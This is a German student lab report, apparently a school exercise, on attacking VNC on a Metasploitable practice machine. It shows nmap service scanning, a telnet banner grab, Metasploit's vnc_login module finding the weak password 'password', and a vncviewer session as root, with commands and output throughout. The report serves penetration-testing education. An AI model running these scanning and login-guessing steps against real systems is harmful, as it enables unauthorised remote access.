

| Kategorie | Beschreibung |
| --------- | --------- |
| Name      | Jonas Wolfbauer |
| Klasse    | 4AHITS |
| Fach      | ITSE |
| Thema     | VNC Exploitation |
| Datum     | 09.03.2026 |

# Übung (VNC - Recherche)
VNC (Virtual Network Computing) ist eine open source Softwaretechnologie, welche das Fernsteuern und Bedienen von anderen Geräten über das Internet ermöglicht.

Es gibt verschiedene Implementationen, beliebte sind darunter TightVNC, RealVNC und noVNC.

# Übung (VNC - Scan)
Ein Scan auf Metasploitable liefert unter TCP-Port ``5900`` folgende Informationen:

**Command**
```bash
nmap -sV -sC 192.168.1.51
```

> Anmerkung  
Das Skript ``vnc-info`` wird ebenfalls mitausgeführt.

**relevanter Output**
```bash
5900/tcp open  vnc         VNC (protocol 3.3)
| vnc-info:
|   Protocol version: 3.3
|   Security types:
|_    VNC Authentication (2)
```

**Banner**
```bash
telnet 192.168.1.51 5900
Trying 192.168.1.51...
Connected to 192.168.1.51.
Escape character is '^]'.
RFB 003.003
^]
```

# Übung (VNC - Exploit)
Das in der ``msfconsole`` zu verwendende Modul lautet ``auxiliary/scanner/vnc/vnc_login``.

```bash
msf > use auxiliary/scanner/vnc/

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/vnc/ard_root_pw    .                normal  No     Apple Remote Desktop Root Vulnerability
   1  auxiliary/scanner/vnc/vnc_none_auth  .                normal  No     VNC Authentication None Detection
   2  auxiliary/scanner/vnc/vnc_login      .                normal  No     VNC Authentication Scanner


Interact with a module by name or index. For example info 2, use 2 or use auxiliary/scanner/vnc/vnc_login
```

**Ausführung**
```bash
msf auxiliary(scanner/vnc/vnc_login) > run
[*] 192.168.1.51:5900     - 192.168.1.51:5900 - Starting VNC login sweep
[!] 192.168.1.51:5900     - No active DB -- Credential data will not be saved!
[+] 192.168.1.51:5900     - 192.168.1.51:5900 - Login Successful: :password
[*] 192.168.1.51:5900     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution complete
```

Der Command liefert das Passwort zürück, dass der Login mit dem Passwort ``password`` erfolgreich war.
Ein Verbinden ist nun von kali-Linux aus möglich.

**Verbinden**
```bash
┌──(root㉿kali)-[~]
└─# vncviewer 192.168.1.51
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0

```

Es öffnet sich nach erfolgreicher Passwort-Eingabe daraufhin ein Fenster via VNC, welches mit metasploitable verbunden ist.

Der User ist **``root``**.




# Hilfreiche Quellen
- [Script vnc-info](https://nmap.org/nsedoc/scripts/vnc-info.html)